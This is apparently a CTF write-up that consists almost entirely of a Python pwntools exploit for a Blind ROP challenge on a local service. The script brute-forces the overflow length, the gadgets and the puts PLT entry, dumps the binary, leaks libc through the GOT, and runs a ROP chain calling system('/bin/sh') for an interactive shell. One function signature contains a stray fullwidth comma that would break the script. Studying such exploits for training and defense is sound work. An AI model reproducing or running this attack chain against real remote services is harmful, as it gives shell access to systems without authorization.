

### exp

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
#f=process("./brop")


def get_buffer_overflow_length(): # 得到栈溢出长度
    i=1
    while 1:
        try:
            f=remote("127.0.0.1",9999)
            f.sendlineafter(b"WelCome my friend,Do you know password?\n",b"g"*i)
            s=f.recvline()
            f.close()
            i=i+1
        except EOFError:
            f.close()
            print("因为如果有canary保护的话会有相应报错内容而这里没有，所以出现溢出到返回地址")
            print("到出现错误的时候即从输入到返回地址的长度为",i-1)
            return i-1

def get_stop_addr(length):  # 得到能返回主函数的地址
    addr=0x400000
    while 1:
        try:
            f=remote("127.0.0.1",9999)
            payload=b"g"*length+p64(addr)
            f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
            s=f.recvline()
            print(s)
            if s.startswith(b"WelCome"):
                print("第一个找到的能返回主函数开始的地址",hex(addr))
                return addr ## 找到一个能返回主函数开始的地址
            addr=addr+1
            f.close()
        except Exception:
            addr=addr+1
            f.close()


def get_brop_gadget(stop_addr,addr,length): # 找到能连续pop6次并ret的指令的地址
        try:
            f=remote("127.0.0.1",9999)
            payload=b"g"*length+p64(addr)+p64(0)*6+p64(stop_addr)
            f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
            s=f.recvline()
            f.close()
            if s.startswith(b"WelCome"):
                print("找到了一个可能合适的连续pop六次+ret的gadget：",hex(addr))
                return True
        except Exception:
            f.close()


def check_brop_gadget(stop_addr，length, addr): #检查防止其是pop7次然后ret偶然能返回到正确地址的可能性
    try:
        f=remote("127.0.0.1",9999)
        payload=b'g'*length+p64(addr)+p64(0)*7+p64(stop_addr)
        f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
        s=f.recvline()
        f.close()
        return False 
    except Exception:
        f.close()
        print("大概率是正确的了")
        return True

def ensure_brop_gadget(stop_addr,length): #综合get和check
    addr=0x400000
    while 1:
        if get_brop_gadget(stop_addr,addr,length):
            if check_brop_gadget(stop_addr,length,addr):
                print("存在一个brop_gadget,地址为：",hex(addr))
                return addr
        addr=addr+1
        


def find_put_plt(stop_addr,pop_rdi_ret,buffer_length): #找到find的plt表的位置
    addr=0x400500
    while 1:
        f=remote("127.0.0.1",9999)
        payload=b"g"*buffer_length+p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_addr)
        f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
        try:
            s=f.recv()
            if s.startswith(b"\x7fELF"):
                print("找到了输出函数的plt位置",hex(addr))
                return addr
            else :
                addr=addr+1
            f.close()
        except Exception:
            f.close()
            addr=addr+1


def leak_file(stop_addr,pop_rdi_ret,buffer_length,put_plt_addr): # 泄露二进制文件然后能找到plt中puts的内容有其got地址的相关信息
   
    addr=0x400000
    while addr<0x401000:
        f=remote("127.0.0.1",9999)
        payload=b'g'*buffer_length+p64(pop_rdi_ret)+p64(addr)+p64(put_plt_addr)+p64(stop_addr)
        f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
        s=f.recvuntil(b"\nWelCome")
        s=s[:s.index(b"\nWelCome")]
        s=s+b"\x00"
        with  open("binary_file","ab+") as bf:
            bf.write(s)
        addr=addr+len(s)
        f.close()


#buffer_length=get_buffer_overflow_length()
buffer_length=72

#stop_addr=get_stop_addr(buffer_length)
stop_addr=0x4005c0

#brop_addr=get_brop_gadget(stop_addr,buffer_length)
#ensure_brop_gadget(stop_addr,buffer_length)
brop_addr=0x4007ba
pop_rdi_ret=brop_addr+0x9

#put_plt_addr=find_put_plt(stop_addr,pop_rdi_ret,buffer_length)
put_plt_addr=0x400555

#leak_file(stop_addr,pop_rdi_ret,buffer_length,put_plt_addr)
put_got_addr=0x601018 # 查看binary_file找到got表的地址 
# 以上都是通过函数得出，下面是对得出的信息进行利用


# 得到puts的地址
f=remote("127.0.0.1",9999)#f=process("./brop")
#gdb.attach(f,"b main")
payload=b"g"*buffer_length+p64(pop_rdi_ret)+p64(put_got_addr)+p64(put_plt_addr)+p64(stop_addr)
f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
s=f.recvline()[:-1]

#计算相关地址
put_addr=u64(s.ljust(8,b"\x00"))
print(hex(put_addr))
libc=ELF("./libc-2.23.so")
libc_base=put_addr-libc.sym["puts"]
print(hex(libc_base))
system_addr = libc_base + libc.sym['system']
binsh_addr=libc_base+libc.search(b"/bin/sh").__next__()
print(hex(system_addr))
print(hex(binsh_addr))

# 构造ROP链执行system函数
payload=b"g"*buffer_length+p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr)+p64(stop_addr)
f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
f.interactive()


"""  测试用的
f=remote("127.0.0.1",9999)
f=process("./brop")
#gdb.attach(f,"b main")
payload=b"g"*buffer_length+p64(pop_rdi_ret)+p64(0x40093b)+p64(put_plt_addr)+p64(stop_addr)
f.sendlineafter(b"WelCome my friend,Do you know password?\n",payload)
s=f.recvline()
"""
```

